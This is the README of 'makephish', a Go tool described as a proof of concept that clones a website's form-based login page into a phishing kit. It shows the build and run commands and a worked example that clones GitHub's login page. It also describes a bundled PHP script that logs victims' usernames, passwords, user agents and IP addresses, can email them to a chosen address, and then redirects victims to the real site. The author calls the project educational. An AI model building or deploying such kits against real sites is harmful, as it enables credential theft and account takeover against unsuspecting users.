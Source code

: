 # makephish

<p align="center">
  <p align="center">
    <a href="https://github.com/andpalmier/makephish/blob/master/LICENSE"><img alt="Software License" src="https://img.shields.io/badge/license-GPL3-brightgreen.svg?style=flat-square"></a>
    <a href="https://goreportcard.com/report/github.com/andpalmier/makephish"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/andpalmier/goransom?style=flat-square"></a>
    <a href="https://twitter.com/intent/follow?screen_name=andpalmier"><img src="https://img.shields.io/twitter/follow/andpalmier?style=social&logo=twitter" alt="follow on Twitter"></a>
  </p>
</p>


This is a proof of concept to automatically create phishing kits based on a specified URL, **please note that** `makephish` **will work exclusively on websites having a simple pages with** `<form>` **logins.**

The purpose of this project is purely educative: I wrote `makephish` to get familiar with Go, this also means that the code is poorly written and organized. The idea of the project is also to show how easy it is to clone a website and use it to create phishing pages.

## Usage

After downloading the repository, navigate into the directory and build the project:

```
$ go build makephish.go
```

This will create an executable called `makephish`. You can then run the executable with the following flags:

- `-u`: URL of login page
- `-a`: User Agent string, by defefault *"Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0"*
- `-p`: Path to the PHP file to be used, by default *"phish.php"*
- `-d`: Path used to store the kits, by default *"./kits"*


### Example

```
$ ./makephish -u "https://github.com/login/"



Navigating to https://github.com/login using the following User agent string: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Parameters found in the form of the given URL:
 post action = /session
 login attribute name = login
 password attribute name = password

HTML file patched and saved in kits/github.com
PHP file saved in kits/github.com
[!] Operation completed! Created a kit for https://github.com/login and saved in kits/github.com

$ tree kits/github.com
kits/github.com
├── assets
│   ├── behaviors-afe1a202.js
│   ├── chunk-frameworks-81b94425.js
│   ├── chunk-vendor-4d97ead9.js
│   ├── environment-f0adafbf.js
│   ├── frameworks-052cbe13e4b93c9b8358a7178885c1a0.css
│   ├── github-f19f9fd1ee83046f59cf1815d967f4d0.css
│   ├── sessions-45084fea.js
│   ├── settings-c44d66a8.js
│   ├── site-ca634d80a8a0df2203c34902267667dc.css
│   └── unsupported-a85b1284.js
├── index.html
└── phish.php

1 directory, 12 files

$ cd kits/github.com
$ $ php -S localhost:8000
[Sun Jan 10 12:10:54 2021] PHP 7.4.14 Development Server (http://localhost:8000) started

```

At this point, if you go to `localhost:8000` you should find something like this:

<p align="center">
  <img alt="fakeGH" src="https://github.com/andpalmier/makephish/blob/main/img/fakeGH.png?raw=true" />
</p>

If you enter some random credentials, you will note that you will be redirected to the real `github.com` login page:

<p align="center">
  <img alt="realGH" src="https://github.com/andpalmier/makephish/blob/main/img/realGH.png?raw=true" />
</p>

If you didn't modify the `phish.php` file, you can find the credentials you just enetered in `localhost:8000/log`:


<p align="center">
  <img alt="logs" src="https://github.com/andpalmier/makephish/blob/main/img/logs.png?raw=true" />
</p>

### PHP capabilities

A simple PHP file is provided in this repo, but you can easily adjust it to your needs. By default, the file will save username, password, User Agent string and IP of the victim in a log file, you can disable this option by removing the content of the variable `log`. You can also specify an email address to send these details via email everytime a new victim enters the credentials.

```
$exfilemail = ""; // -> enter an email address to send the details via email
$logpath = "log"; // -> make this variable empty to disable logging feature
```
